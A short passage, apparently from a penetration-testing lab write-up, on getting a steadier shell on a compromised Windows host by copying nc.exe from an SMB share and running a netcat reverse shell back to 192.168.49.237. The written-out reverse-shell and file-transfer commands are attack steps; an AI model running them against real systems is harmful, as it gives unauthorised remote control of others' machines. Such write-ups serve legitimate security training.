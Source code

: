 To get a more stable and interactive shell, we can transfer `nc.exe` and run it.

Copy netcat over SMB: `copy \\192.168.49.237\ROPNOP\nc.exe .`

Create another reverse shell: `nc -e cmd.exe 192.168.49.237 139`

![](../../.gitbook/assets/e355535d58254af8a77f69166995ca5c.png)

![](../../.gitbook/assets/4b6b0f0a75c14b96b3cf27160fa29e63.png)

![](../../.gitbook/assets/d7300e0f22074c459261ec0505aca479.png)
